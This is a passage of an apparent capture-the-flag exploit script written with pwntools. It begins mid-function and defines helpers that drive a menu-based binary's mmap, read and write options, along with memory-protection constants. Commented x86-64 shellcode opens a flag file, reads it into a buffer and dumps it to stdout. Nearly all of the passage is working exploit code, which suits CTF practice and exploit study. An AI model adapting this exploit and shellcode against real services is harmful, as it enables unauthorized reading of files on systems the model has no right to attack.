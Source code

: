 ```
            return gdb.debug(exe.path, gs)
        elif args.GEF:
            gs = '''
            init-gef
            '''
            return gdb.debug(exe.path, gs)
        else:
            return local(argv, *a, **kw)

def log_addr(name, addr):
    log.info('{}: {:#x}'.format(name, addr))

def mmap(addr, length, prot, flags, fd, offset):
    r.sendlineafter('choice = ', '1')
    r.sendlineafter('addr = ', str(addr))
    r.sendlineafter('len  = ', str(length))
    r.sendlineafter('prot = ', str(prot))
    r.sendlineafter('flags = ', str(flags))
    r.sendlineafter('fd = ', str(fd))
    r.sendlineafter('offset = ', str(offset))

def write(sz):
    r.sendlineafter('choice = ', '2')
    r.sendlineafter('sz = ', str(sz))
    r.recvuntil('data = ')
    line = r.recvline().strip()
    return line

def read(sz, data):
    r.sendlineafter('choice = ', '3')
    r.sendlineafter('sz = ', str(sz))
    r.sendlineafter('data = ', data)

PROT_READ = 0x01 # Page can be read.
PROT_WRITE = 0x2 # Page can be written.
PROT_EXEC = 0x4 # Page can be executed.
MAP_SHARED = 0x01 # Share changes.
MAP_PRIVATE = 0x02 # Changes are private.
MAP_FIXED = 0x10
MAP_ANONYMOUS = 0x20 

# SHELLCODE:
# Open the flag file. The name of the path is written in a buffer at address 0x500000
# mov    r8,rdi
# mov    rax,0x2
# mov    rdi,0x500000
# xor    esi,esi
# syscall
#
# Call read() to put the contents of the flag into the buffer
# mov    rbx,rax
# mov    rdi,rbx
# mov    rsi,0x500000
# mov    rdx,0x100
# mov    rax,0x0
# syscall
#
# Call write() to dump the flag contents to stdout
# mov    rdi,0x1
# mov    rsi,0x500000
# mov    rdx,0x50
# mov    rax,0x1
# syscall
```